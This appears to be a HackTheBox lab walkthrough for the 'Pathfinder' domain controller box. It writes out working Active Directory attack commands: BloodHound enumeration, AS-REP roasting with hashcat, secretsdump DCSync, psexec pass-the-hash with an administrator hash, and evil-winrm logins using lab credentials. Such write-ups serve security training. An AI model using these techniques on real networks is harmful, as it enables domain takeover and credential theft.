


*2021-08-21*

*kimm3*

# Walkthrough: Box
Platform: HackTheBox, Starting Point

Difficulty: Very Easy

This is the fifth box in the starting point series.

The boxes build on each other so make sure to save credentials and other intersting information that you find.

Ref:
- [Bloodhound](https://bloodhound.readthedocs.io/en/latest/index.html)
- [Hausec AD pentesting part II, some good tips](https://hausec.com/2019/03/12/penetration-testing-active-directory-part-ii/)
- [Kerberoasting](https://www.blackhillsinfosec.com/a-toast-to-kerberoast/)
- [Impacket](https://github.com/SecureAuthCorp/impacket)
- [evil-winrm](https://github.com/Hackplayers/evil-winrm)

## Scans and enumeration
```
export IP=10.10.10.30
sudo nmap $IP -p- -Pn -A -oA nmap/init-scan
```


That looks like a Windows domain controller, indicated by ldap and kerberos. Information found includes:

- Hostname: PATHFINDER
- Domain: MEGACORP
- Other protocols worth enumeration: DNS, SMB, WinRM
If we get credentials, we can try to use windows remote management to access the machine.

The domain name is the same as the previous boxes. Since we have domain users credentials from the Shield box, we can enumerate further with bloddhound tools.

You'll need bloodhound and the neo4j packages installed.

There's a [python bloodhound collector tool](https://github.com/fox-it/BloodHound.py) so that you don't have to depend on windows apps.

```
pyhon3 -m venv pathfinder
source pathfinder/bin/activate
pip install bloodhound
```

`bloodhound-python -d megacorp.local -u sandra@MEGACORP.local -p Password1234! -dc pathfinder.megacorp.local -ns $IP -c all --zip`



Drag and drop the zipfile in to bloodhound. Run some built-in quieries from the analysis window. Apart from the administrator user, there's a user called svc_bes that has the 'GetChanges' and 'GetChangesAll' rights to the domain.




Let's try to get some hashes. First we'll try to get SNPs.


This fails due to my machine not having the same time as the DC, we'll try to sync time if the others techniques dosen't work.


Success, let's try to crack it.


`hashcat -a 0 -m 18200 hashes/svcbes sl/Passwords/Leaked-Databases/rockyou.txt`


## Exploiting the machine
`secretsdump.py megacorp.local/svc_bes:Sheffield19@10.10.10.30 -dc-ip $IP`


Let's try psexec.py with the administrator hash.

`psexec.py megacorp.local/administrator@10.10.10.30 -hashes aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18`


It works.
## Alternative
With the svc_bes user, we can use winrm to get in to the machine and get the user.txt.


Install evil-winrm and connect with: `evil-winrm -i 10.10.10.30 -u svc_bes -p Sheffield19`

Once you have the hash of the administrator, you can use evil-winrm to connect as administrator as well:


## An easier way
Don't know why I didn't try this first, but the user sandra gets in with winrm. From here you can upload files like mimikatz and winpeas.


